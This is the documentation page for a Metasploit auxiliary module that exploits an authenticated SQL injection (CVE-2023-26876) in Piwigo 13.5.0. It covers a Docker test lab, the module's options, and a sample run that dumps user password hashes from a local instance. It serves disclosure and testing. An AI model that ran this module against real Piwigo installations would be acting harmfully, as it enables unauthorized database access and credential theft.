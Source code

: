 ## Vulnerable Application

This module exploits an authenticated SQL injection vulnerability
caused by improper handling of user-supplied input in Piwigo (Photo Gallery).
The vulnerability can be found in Piwigo version 13.5.0.
By exploiting this vulnerability, an attacker can execute arbitrary SQL queries,
potentially gaining unauthorized access to sensitive information or manipulating the database.
For a detailed technical analysis of this vulnerability,
please refer to the [https://github.com/advisories/GHSA-4xvf-3477-vq63](https://github.com/advisories/GHSA-4xvf-3477-vq63).

## Options

To successfully perform a SQL injection attack, you need to configure the module's `RHOSTS`
option with a valid Piwigo endpoint (`TARGETURI`).
Additionally, set the `USERNAME` option to specify the name of a privileged user and provide the corresponding `PASSWORD`.

## Testing

To setup a test environment, the following steps can be performed.

1. Install docker [https://docker.io](docker.io)
2. Inside any directory create the dockerfile below:

```yaml
FROM alpine:3.10.3
LABEL maintainer="Moritz Heiber <hello@heiber.im>"

ENV PIWIGO_VERSION="13.5.0"
RUN set -x && apk --no-cache add curl php7 php7-gd php7-mysqli php7-json php7-session php7-exif && \
curl "http://piwigo.org/download/dlcounter.php?code=${PIWIGO_VERSION}" --output piwigo.zip && \
adduser -h /piwigo -DS piwigo && unzip piwigo.zip -d /piwigo && \
install -d -o piwigo /piwigo/piwigo/galleries /piwigo/piwigo/upload && \
chown -R piwigo /piwigo/piwigo/local && \
apk --no-cache del curl && rm piwigo.zip

WORKDIR /piwigo
USER piwigo

CMD ["php","-S","0.0.0.0:8000","-t","piwigo"]
```

3. Install `docker-compose` and create a file called `docker-compose.yml` with the following content:

```yaml
  version: '3'
        services:
          piwigo:
            container_name: piwigo
            image: piwigo-docker
            networks:
              - piwigo
            ports:
              - "8000:8000"
          mysql:
            container_name: piwigo_mysql
            image: mysql:8.0.18
            command: ["--default-authentication-plugin=mysql_native_password"]
            networks:
              - piwigo
            environment:
              MYSQL_USER: "piwigo"
              MYSQL_PASSWORD: "piwigo"
              MYSQL_DATABASE: "piwigo"
              MYSQL_RANDOM_ROOT_PASSWORD: "true"

        networks:
          piwigo:
```

4. Execute the commands `docker build -t piwigo-docker .` and `docker-compose up -d`
   inside the folder that contains the `docker-compose.yml` and `Dockerfile` files.
5. Then Piwigo's installation page should be available at http://localhost:8000
6. Setup the database with `mysql` as url of database, **piwigo** as `username` **piwigo** as `password`
7. Login as privilege user and create any photo album and upload any photo to that album.

## Verification Steps

1. Start `msfconsole`
2. Use the `auxiliary/gather/piwigo_cve_2023_26876 module`.
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. Set the `TARGETURI` option to the target HTTP path
5. Set the `USERNAME` option to piwigo.
6. Set the `PASSWORD` option to piwigo.
7. `run`

## Scenarios

### Piwigo SQL Injection

```
msf6 auxiliary(gather/piwigo_cve_2023_26876) > show options

Module options (auxiliary/gather/piwigo_cve_2023_26876):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   piwigo           yes       The password for authenticating to Piwigo
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Piwigo
   USERNAME   piwigo           yes       The username for authenticating to Piwigo
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/piwigo_cve_2023_26876) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running Piwigo with version 13.5.0
[*] Try to log in..
[+] Successfully logged into Piwigo
[+] Target is vulnerable
[*] Dump of usernames and hashes:

Piwigo Users
============

 username  hash
 --------  ----
 admin     $P$GAO2fLIGJtRyQCNf96KbQ9PeiDAuii/
 guest
 piwigo    $P$GNrJljahQW2NXTXhWNZdalgGiao/T1/
 test1     $P$G2HB46S.PMs5gExCAfXCMUW2p1HwA60
 user      $P$GE/wX1wqKM0WKkAGXvhYihdPhgl5Mw/

[*] Auxiliary module execution completed
msf6 auxiliary(gather/piwigo_cve_2023_26876) >
```
